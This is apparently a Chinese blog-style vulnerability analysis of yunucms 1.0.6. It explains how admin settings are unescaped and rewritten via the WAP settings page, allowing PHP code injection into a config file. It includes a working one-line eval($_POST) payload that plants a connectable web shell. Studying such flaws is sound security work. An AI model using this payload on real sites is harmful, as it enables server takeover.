









漏洞环境：yunucms1.0.6

php：5.6.40

# 漏洞分析

漏洞点在/app/admin/controller/System.php的basic方法下



对于传过来的数据会通过add_slashes_recursive转义，然后写入/config/extra/sys.php中



此时sys.php内容如下



但是在/app/admin/controller/Wap.php的index方法中



会重写加载配置文件，是会把转义后的字符还原的，然后再调用setConfigfile重写写入配置文件，就能够配置之前的单引号，逃逸php代码，最后的配置文件



至于为什么要在wap设置中呢，因为wap设置中和基础设置所涉及的config字段不一样

# 漏洞复现

yunucms是通过thinkphp5二次开发的，访问路由和thinkphp一样

```
Payload：',1=>eval($_POST[g]),'xx'=>'
```

在公司名称等地方都可以填



写入配置文件后，用wap设置重新更新配置文件，相当于二次注入



看到改变后的代码



虽然报错了，但是可以直接连接




参考链接：

https://blog.csdn.net/qq_23936389/article/details/84967441